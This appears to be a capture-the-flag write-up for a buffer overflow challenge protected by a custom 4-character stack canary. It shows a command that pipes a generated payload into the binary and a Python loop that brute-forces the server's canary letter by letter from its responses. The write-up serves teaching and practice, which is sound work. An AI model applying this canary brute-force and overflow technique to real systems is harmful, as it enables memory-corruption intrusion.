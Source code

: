 `payload` will generate the payload for our **local** canary value.  
To use it we will run
```
$ printf "$(python script.py payload )" | ./vuln
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
my flag

[2]    34132 done                              printf "$(python script.py payload )" | 
       34134 segmentation fault (core dumped)  ./vuln
```
And we get our local flag.

## Canary Discovery
Now for finding the canary of the server.  
The canary is a **4** character value and static.  
We can **brute force** it assuming the english alphabet with both upper and lowercase.  
But this creates 52<sup>4</sup> options which is a lot.

Instead we will brute force letter by letter.  
To decide if we found a letterm we will examine the output
When the canary is **incorrect** we get the message:
```
***** Stack Smashing Detected ***** : Canary Value Corrupt!
```
And when it is **correct** we will get
```
Ok... Now Where's the Flag?
```

So we can overflow the buffer **up to** the **first letter** of the canary and try every option until we see the second message

This can be done using the `find` option of the **script** but with some **manual** work as well
```python
canary_dist = 64
confirmed = ""
for chr in "AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz":
    canary = confirmed+chr
    payload = construct_payload(canary.encode()[::-1].hex(), canary_dist, encode=True)
    server_output = send_to_server(payload)
    print(canary + ": ", end="")
    print(server_output)
```
`confirmed` contains the canary letters we have **discovered**.  
Initially it is **empty**, every time we find a letter, we **add** it to `confirmed` and it will find the next one  
To use it we run
```
$ python script.py find | grep -i "flag"
B: b"Ok... Now Where's the Flag?\n"
```
The first letter of the output is the canary part we are testing  
So `B` is the first letter of the canary, we add it to `confirmed` and repeat.  
We repeat until we get all **4** letters.
